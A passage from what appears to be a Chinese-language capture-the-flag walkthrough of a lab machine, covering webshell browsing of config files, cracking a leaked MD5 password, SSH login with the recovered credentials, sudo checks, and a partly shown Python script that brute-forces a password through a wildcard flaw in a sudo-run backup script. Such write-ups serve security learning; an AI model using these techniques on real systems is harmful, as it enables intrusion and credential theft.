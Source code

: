 ![image-20240828174220853](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281742020.png)

（4）成功拿到userflag

![image-20240828174232458](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281742548.png)

（5）SUID权限文件中并没有发现常用可提权文件，蚁剑翻找配置文件，在网站config目录下发现了用户泄露

![image-20240828174242292](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281742350.png)

![image-20240828174249121](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281742184.png)

（6）将泄露的dbf文件进行查看，发现了用户名和密码

![image-20240828174257178](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281742235.png)

![image-20240828174305726](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281743778.png)

（7）将密码进行识别，进行MD5解密，成功解密用户密码

![image-20240828174313451](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281743538.png)

![image-20240828174323188](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281743245.png)

（8）ssh远程登录用户

```python
ssh llhhqq@192.168.186.164
admin050328
```

![image-20240828174330614](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281743739.png)

（9）权限查询以及尝试提权

```python
whoami
sudo su
sudo -l
```

![image-20240828174341766](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281743847.png)

（6）代码审计发现当用户输入的和数据中的密码匹配时，就会输出password confirmed

![image-20240828174408291](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281744408.png)

（10）爆破脚本对此进行利用，tmp（可执行权）目录下，创建脚本，运行脚本，跑出lhq用户的密码

```python
#爆破密码脚本
import string
import subprocess

all = list(string.ascii_letters + string.digits)  # 创建包含所有字母和数字的字符列表
password = ""  # 初始化密码为空字符串
found = False  # 初始化 found 变量为 False，表示密码尚未找到

while not found:
    for character in all:
        # 构建要执行的命令
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh" 
        # 使用 subprocess.run 执行命令，>并获取标准输出
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE,stderr=subprocess.PIPE, text=True).stdout
 # 如果输出包含 "Password confirmed!" 字符串，表示密码中的字符是正确的
        if "Password confirmed!" in output:
```